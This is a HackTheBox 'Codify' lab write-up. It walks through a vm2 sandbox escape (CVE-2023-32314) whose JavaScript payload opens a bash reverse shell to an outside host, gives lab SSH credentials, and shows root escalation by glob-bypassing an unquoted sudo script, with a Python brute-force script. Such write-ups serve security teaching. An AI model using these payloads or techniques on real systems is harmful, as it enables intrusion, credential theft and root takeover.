









# Codify -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Codify (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-06-05

---

## TL;DR

### Exploited CVE-2023-32314 (vm2 sandbox escape) for initial shell. Found SQLite DB with creds for SSH. Privesc via unquoted variable in a sudo backup script -- leaked root password through process monitoring or glob brute force.
---

## Target info

- Host: `10.129.20.142`
- Services discovered: `22/tcp (ssh)`, `80/tcp (http)`

---

## Enumeration



Website uses vm2 for sandboxed code execution:



- Link goes to GitHub version 3.9.16



## Exploitation

Found CVE-2023-32314: <https://security.snyk.io/vuln/SNYK-JS-VM2-5537100>

Used the sandbox escape PoC, changed `echo hacked` to a bash reverse shell:

```javascript
const err = new Error();
 err.name = {
  toString: new Proxy(() => "", {
   apply(target, thiz, args) {
    const process = args.constructor.constructor("return process")();
    throw process.mainModule.require("child_process").execSync('bash -c "bash -i >& /dev/tcp/10.10.14.191/6969 0>&1"').toString();
   },
  }),
 };
 try {
  err.stack;
 } catch (stdout) {
  stdout;
 }
```



## User

Found `/var/www/contact` folder with a SQLite database:





- `joshua:spongebob1`

```bash
ssh joshua@10.129.20.142
```

## Privilege escalation

Checked sudo permissions:



Can run the backup script, but not edit/overwrite it. Trying `root:root` gives password confirmation failed:



Examined the script:



Two issues:

1. `$USER_PASS` is not quoted -- glob pattern `*` bypasses the check
2. The calls to mysql/mysqldump pass the password on the command line (readable from `/proc`)

Uploaded pspy64, ran the script with `*` as the password, and caught the password from the process list:


- Password: `kljh12k3jhaskjh12kjh3`

Alternative: brute force with glob matching since any correct prefix + `*` succeeds:

```python
#!/usr/bin/env python3
import subprocess
import string
leaked_password = ""
while True:
  for c in string.printable[:-5]:
    if c in '*\\%':
      continue
    print(f"\r{leaked_password}{c}", flush=True, end="")
    success = False
    try:
      result = subprocess.run(f"echo '{leaked_password}{c}*' | sudo /opt/scripts/mysql-backup.sh", stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True, timeout=0.3)
    except subprocess.TimeoutExpired:
      success = True
    if success or "Password confirmed" in result.stdout.decode():
      leaked_password += c
      break
  else:
    break
print(f'\r{leaked_password}    ')
```

---

## Lessons & takeaways

- Unquoted variables in bash comparisons allow glob bypass (`*` matches anything)
- Passwords passed as command-line arguments are visible in `/proc` -- use pspy to capture them
- Always check for SQLite databases in web app directories
---
